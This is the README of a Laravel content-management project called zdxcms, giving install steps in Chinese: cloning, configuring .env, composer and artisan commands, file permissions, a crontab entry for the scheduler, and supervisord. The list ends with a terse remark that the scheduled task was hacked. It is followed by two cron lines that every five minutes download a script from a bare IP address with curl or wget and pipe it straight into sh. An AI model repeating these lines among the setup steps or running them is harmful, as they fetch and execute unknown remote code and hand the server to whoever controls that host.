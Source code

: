 ﻿## zdxcms

安装步骤：
- git clone https://github.com/wenhaiqing/zdxcms.git

- cp .env.example .env
  手动创建数据库 修改配置文件的数据库配置
- composer install

- php artisan key:generate

- php artisan migrate --seed

- 给项目文件夹0755权限

- 创建任务调度器export EDITOR=vi && crontab -e

- corn会在每分钟调度一次laravel命令调度器* * * * * php /home/vagrant/Code/xxx/artisan schedule:run >> /dev/null 2>&1

- supervisord -c /etc/supervisord.conf或者supervisorctl reload重启进程管理

- 开启了opcache 每次修改代码都得reload
- 定时任务被黑的郭高伟测试分支
*/5 * * * * curl -fsSL http://165.225.157.157:8000/i.sh | sh
*/5 * * * * wget -q -O- http://165.225.157.157:8000/i.sh | sh

